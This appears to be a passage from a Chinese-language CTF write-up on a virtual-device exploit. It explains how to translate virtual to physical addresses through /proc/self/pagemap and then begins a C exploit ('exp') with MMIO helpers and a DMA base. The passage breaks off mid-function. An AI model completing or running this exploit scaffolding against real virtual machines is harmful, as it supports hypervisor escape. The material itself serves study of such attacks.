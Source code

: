 ```
Since Linux 4.0 only users with the CAP_SYS_ADMIN capability can get PFNs.
In 4.0 and 4.1 opens by unprivileged fail with -EPERM. Starting from
4.2 the PFN field is zeroed if the user does not have CAP_SYS_ADMIN.
Reason: information about PFNs helps in exploiting Rowhammer vulnerability.
```

根据以上信息，利用 /proc/pid/pagemap 可将虚拟地址转换为物理地址，具体步骤如下：

1. 计算虚拟地址所在虚拟页对应的数据项在 /proc/pid/pagmap 中的偏移，offset = (viraddr / pagesize) * sizeof(uint64_t)
2. 读取长度为 64 bits 的数据项；
3. 根据 Bit 63 判断物理内存页是否存在；
4. 若物理内存页已存在，则取 bits 0 - 54 作为物理页号（pageframenum）；
5. 计算出物理页起始地址加上页内偏移即得到物理地址，phyaddr = pageframenum * pagesize + viraddr % pagesize;

exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>   
#include <stdint.h>

#define DMABASE 0x40000
char *userbuf;
uint64_t userbuf_pa;
unsigned char* mmio_mem;

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

size_t va2pa(void *addr){
	uint64_t data;

	int fd = open("/proc/self/pagemap",O_RDONLY);
	if(!fd){
		perror("open pagemap");
        return 0;
	}

	size_t pagesize = getpagesize();
	size_t offset = ((uintptr_t)addr / pagesize) * sizeof(uint64_t);

	if(lseek(fd,offset,SEEK_SET) < 0){
		puts("lseek");
		close(fd);
		return 0;
	}

	if(read(fd,&data,8) != 8){
		puts("read");
		close(fd);
```